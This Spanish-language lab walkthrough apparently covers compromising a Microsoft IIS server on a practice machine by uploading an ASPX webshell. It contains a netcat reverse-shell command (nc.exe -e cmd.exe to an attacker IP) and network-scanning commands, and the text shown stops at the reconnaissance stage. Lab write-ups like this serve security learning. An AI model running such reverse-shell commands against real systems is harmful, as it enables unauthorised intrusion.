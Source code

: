 # Webshell ASPX en Servidor Microsoft IIS

Maquinas que voy a utilizar **Kali Linux y Cocido Andaluz** [https://thehackerslabs.com/cocido-andaluz/](https://thehackerslabs.com/cocido-andaluz/)

<aside>
💡

Un servidor **Microsoft IIS (Internet Information Services)** es una plataforma de servidor web desarrollada por Microsoft. Es utilizada para alojar páginas y aplicaciones web, así como servicios relacionados con el Protocolo de Transferencia de Hipertexto (**HTTP**). IIS permite a los usuarios publicar contenido web y gestionar funciones relacionadas con servidores, aplicaciones y sitios web.

</aside>

Comando utilizado para ejecutar la reverse shell:

\`\192.168.0.X\recurso\nc.exe -e cmd.exe 192.168.0.X 443`

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2050.png)

```bash
ping -c 1 10.0.3.19  
```

![image.png](./imagenes/image%2051.png)
